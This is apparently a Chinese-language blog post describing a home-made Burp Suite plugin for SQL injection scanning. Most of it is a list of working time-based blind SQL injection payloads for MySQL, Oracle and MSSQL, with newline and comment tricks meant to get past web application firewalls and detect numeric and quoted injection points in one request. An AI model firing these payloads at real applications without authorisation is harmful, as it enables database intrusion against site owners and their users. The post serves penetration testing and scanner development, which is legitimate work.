 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5-SLEEP(5)/*'-SLEEP(5)-'"-SLEEP(5)-"*/`

`5>SLEEP(5)/*'>SLEEP(5)>'">SLEEP(5)>"*/`

`'||(SELECT 1 FROM DUAL WHERE 6994=6994 AND 1=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5))||'`

`'%2b(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)%2b'`

` waitfor delay '0:0:5' --`

`' waitfor delay '0:0:5' --`

`') waitfor delay '0:0:5' --`

`) waitfor delay '0:0:5' --`

延迟2秒左右
`'||(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T4,ALL_USERS T4,ALL_USERS T5)||'`

`'||DBMS_PIPE.RECEIVE_MESSAGE(CHR(105)||CHR(69)||CHR(114)||CHR(69),5)||'`

`OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ' LIKE 'jmBZ`

`') OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ' LIKE 'jmBZ`


` AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`
